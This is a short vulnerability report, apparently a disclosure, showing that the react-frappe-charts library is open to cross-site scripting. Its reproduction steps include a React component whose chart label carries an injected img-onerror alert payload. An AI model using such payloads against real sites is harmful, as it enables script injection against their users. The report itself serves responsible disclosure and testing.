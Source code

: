 # Description

`react-frappe-charts` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

1. Create a sandbox using "React" https://codesandbox.io/s
2. Edit the data in the file `App.js` with the following code
```
//App.js
import React, { useRef } from "react";
import ReactFrappeChart from "react-frappe-charts";

export default function MyChart(props) {
  const chartRef = useRef();

  const exportChart = () => {
    if (chartRef && chartRef.current) {
      chartRef.current.export();
    }
  };

  return (
    <div>
      <ReactFrappeChart
        ref={chartRef}
        type="bar"
        colors={["#21ba45"]}
        axisOptions={{ xAxisMode: "tick", yAxisMode: "tick", xIsSeries: 1 }}
        height={250}
        data={{
          labels: ["Sun", "Mon'><img src=x onerror=alert(1)>", "Tue", "Wed", "Thu", "Fri", "Sat", "Sun"],
          datasets: [{ values: [18, 60, 30, 35, 8, 52, 17, 4] }],
        }}
      />
      <button onClick={exportChart} type="button">
        Export
      </button>
    </div>
  );
}
```
3. And add the appropriate dependencies
4. XSS payload will get executed.
